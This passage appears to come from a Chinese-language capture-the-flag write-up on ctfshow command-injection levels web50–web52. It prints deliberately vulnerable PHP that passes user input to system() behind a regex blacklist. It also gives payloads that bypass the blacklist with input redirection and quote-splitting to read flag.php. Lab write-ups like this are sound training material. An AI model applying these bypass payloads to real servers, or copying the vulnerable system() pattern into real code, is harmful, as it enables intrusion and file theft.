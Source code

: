 ```
```

这次原先的payload终于没用了，好耶！

然后发现tac依旧坚挺，倒下的是%09，尝试使用%0C取代，不行，换<试试？行了

payload:?c=tac<fla''g.php||



### web51

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:42:52
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

无敌的tac倒下了，但是<没有倒下，||也没有倒下！

payload:?c=nl<fl''ag.php||

成功自行构造出官解，然而记得看源代码，这题没有回显。



### web52

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:50:30
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
```
